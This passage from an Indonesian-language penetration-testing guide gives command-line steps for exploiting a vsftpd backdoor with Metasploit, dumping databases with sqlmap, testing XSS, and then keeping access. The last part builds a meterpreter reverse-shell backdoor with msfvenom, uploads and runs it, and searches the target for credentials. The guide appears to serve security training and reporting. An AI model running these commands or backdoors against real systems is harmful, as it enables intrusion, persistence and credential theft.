 ### 4. Eksploitasi

#### 4.1 Eksploitasi dengan Metasploit
```bash
# Jalankan Metasploit Console
msfconsole

# Cari eksploitasi yang sesuai
search type:exploit platform:linux

# Gunakan modul yang sesuai
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS $TARGET_IP
exploit
```

#### 4.2 Eksploitasi Web
```bash
# SQL Injection dengan SQLmap
sqlmap -u "http://$TARGET_IP/vulnerabilities/sqli/?id=1" --batch --dump

# XSS Testing
python3 xsstrike.py -u "http://$TARGET_IP/search.php?q="
```

### 5. Post-Exploitation

#### 5.1 Mempertahankan Akses
```bash
# Buat backdoor
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f elf > shell.elf

# Unggah ke target
upload /path/to/shell.elf /tmp/shell.elf
chmod +x /tmp/shell.elf

# Jalankan backdoor
./shell.elf
```

#### 5.2 Pencarian Data Sensitif
```bash
# Cari file konfigurasi
find / -name "*.conf" -type f 2>/dev/null

# Cari kredensial
grep -r "password" /var/www/ 2>/dev/null
```

### 6. Dokumentasi

#### 6.1 Template Laporan
```markdown
# LAPORAN PENGUJIAN KEAMANAN

## 1. Informasi Umum
- Tanggal Pengujian: [Tanggal]
- Tim Penguji: [Nama Anggota]
- Lingkup Pengujian: [Deskripsi]

## 2. Ringkasan Eksekutif
[Ringkasan temuan dan rekomendasi utama]

## 3. Temuan
```